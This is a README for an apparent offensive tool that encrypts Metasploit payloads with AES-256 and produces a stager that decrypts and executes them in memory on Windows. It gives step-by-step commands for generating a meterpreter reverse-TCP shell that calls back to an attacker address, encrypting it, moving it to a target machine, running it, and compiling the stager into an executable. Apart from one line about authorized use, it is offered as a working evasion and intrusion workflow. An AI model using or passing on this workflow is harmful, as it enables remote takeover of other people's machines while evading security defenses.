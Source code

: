 

---

# AES-256 Payload Obfuscation Tool

This tool is designed to obfuscate Metasploit payloads using AES-256 encryption. It includes a Python script to encrypt the payload and a stager script to decrypt and execute the payload in memory.

## Features
- Encrypts raw payloads using AES-256-CBC.
- Generates a stager script to decrypt and execute the payload in memory.
- Supports custom encryption keys.
- Works with Windows payloads (x86/x64).

## Prerequisites
- Python 3.x
- `pycryptodome` library (for AES encryption/decryption)
- Metasploit Framework (for generating payloads)



## Usage

### Step 1: Generate a Payload with Metasploit
Use `msfvenom` to generate a raw payload. For example:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f raw -o payload.bin
```

### Step 2: Encrypt the Payload
Use the `encrypt_payload.py` script to encrypt the payload:
```bash
python encrypt_payload.py -i payload.bin -o encrypted.bin
```
- `-i`: Input payload file (e.g., `payload.bin`).
- `-o`: Output encrypted file (e.g., `encrypted.bin`).
- `-k`: (Optional) Specify a 32-byte encryption key in hex format. If not provided, a random key will be generated.

Example with a custom key:
```bash
python encrypt_payload.py -i payload.bin -o encrypted.bin -k 0123456789abcdef0123456789abcdef0123456789abcdef0123456789abcdef
```

### Step 3: Use the Stager
The `encrypt_payload.py` script generates a `stager.py` file. This script decrypts and executes the payload in memory.

1. Transfer the following files to the target machine:
   - `encrypted.bin` (encrypted payload)
   - `stager.py` (loader script)

2. Run the stager on the target machine:
   ```bash
   python stager.py
   ```

### Optional: Compile the Stager
To make the stager more portable, you can compile it into an executable using `PyInstaller`:
```bash
pip install pyinstaller
pyinstaller --onefile stager.py
```
The compiled executable will be located in the `dist` folder.

## Example Workflow
1. Generate a payload:
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.bin
   ```

2. Encrypt the payload:
   ```bash
   python encrypt_payload.py -i payload.bin -o encrypted.bin
   ```

3. Transfer `encrypted.bin` and `stager.py` to the target machine.

4. Execute the stager:
   ```bash
   python stager.py
   ```

## Notes
- The stager uses Windows API calls and is only compatible with Windows systems.
- Ensure the payload architecture (x86/x64) matches the target system.
- Use this tool only in authorized environments for legitimate purposes.


